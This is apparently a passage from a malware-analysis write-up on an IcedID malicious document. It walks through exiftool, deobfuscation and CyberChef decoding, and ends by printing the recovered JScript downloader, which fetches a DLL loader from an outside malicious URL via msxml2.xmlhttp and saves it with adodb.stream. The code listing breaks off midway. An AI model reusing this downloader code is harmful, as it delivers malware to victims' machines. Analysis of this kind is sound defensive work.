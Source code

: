 -> `Exiftool <filename.doc>`

[![](/assets/images/malware-analysis/IcedID/exiftool.jpg)](/assets/images/malware-analysis/IcedID/exiftool.jpg) 

When I opened the document, I found obfuscated content with white color and too small size. So, I griped it and removed all `%1` instances. This is some of code after beautifying:

[![](/assets/images/malware-analysis/IcedID/html.jpg)](/assets/images/malware-analysis/IcedID/html.jpg) 

[![](/assets/images/malware-analysis/IcedID/html2.jpg)](/assets/images/malware-analysis/IcedID/html2.jpg) 

The main function for the whole script is decoding the 2 strings in the top of HTML code then creates a connection with the server to download **IcedID** dll Loader. I `cyberchef` to get these strings.

Final results:

```vbscript
var loveLoadDow = new ActiveXObject("msxml2.xmlhttp");
loveLoadDow.open("GET", "http://maldonadoposts.com/frhe/ay9FVhteL0spFkMx6mGt2FTyWmBDM1y21LXDDawJ5ju/OyoTLW7GKnKcR47oH/57850/35480/dqrChZonUFbByx48dcJjkJqZSJPuljcFF3fRl3aVkTHc6G3/1YglYDdf9MLOEDK04UuiuPRDv5bvdW/d4zdAJPuWCqanXcdssu7im9OumwN7Gr1M3gYAHPB7js/46027/hazu4?dSSO=LPSQufXojX3&kBXxbBETSu=ceglaCn22SNzvl02ORW", false);
loveLoadDow.send();

if(loveLoadDow.status == 200){
	try{
		var youLikeLike = new ActiveXObject("adodb.stream");
		youLikeLike.open;
		youLikeLike.type = 1;
		youLikeLike.write(loveLoadDow.responsebody);
		youLikeLike.savetofile("c:\\users\\public\\youYou.jpg", 2);
```